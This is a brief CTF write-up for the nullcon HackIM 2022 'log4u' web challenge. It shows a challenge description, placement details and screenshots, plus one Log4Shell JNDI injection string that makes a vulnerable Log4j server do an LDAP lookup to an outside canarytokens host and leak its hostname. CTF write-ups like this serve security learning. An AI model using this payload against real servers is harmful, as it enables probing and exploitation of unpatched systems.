 ```yaml
---
layout: single
title: nullcon HackIM 2022
excerpt: "log4u - texnology - fil3serv4r writeups[web]"
date: 2022-4-11
classes: wide
header:
  teaser: 
  teaser_home_page: false
  icon:
categories:
  - nullcon HackIM 2022
  - CTF Jeo
tags:  
  - CTF
---
```




| CTFTime Place | Points | Team |
| --- | --- | --- |
| [30](https://ctftime.org/event/1594/) | 912.000 | Solo - trelosgamiolis |


# log4u
### Challenge Description
```A teacher once told me to "never log things you can't trust...", but it's such a nice business opportunity, so I couldn't resist.```


![b1a57c3f-71e1-4bbf-b299-717490b428fd](https://user-images.githubusercontent.com/45040001/162817938-341792b4-52b0-4d0b-8a90-cc8598d2b0d6.png)



![image](https://user-images.githubusercontent.com/45040001/162826021-f43f8f75-bd20-44c0-be68-52378c202bb3.png)
## Generated log4shell token:
```java
${jndi:ldap://x${hostName}.L4J.z5wbevl1c0v3t8gxs856c96m3.canarytokens.com/a}
```


![Screenshot_2022-04-08_21_17_11](https://user-images.githubusercontent.com/45040001/162826208-c584bd56-8411-4d8e-944e-71bc5925fd36.png)
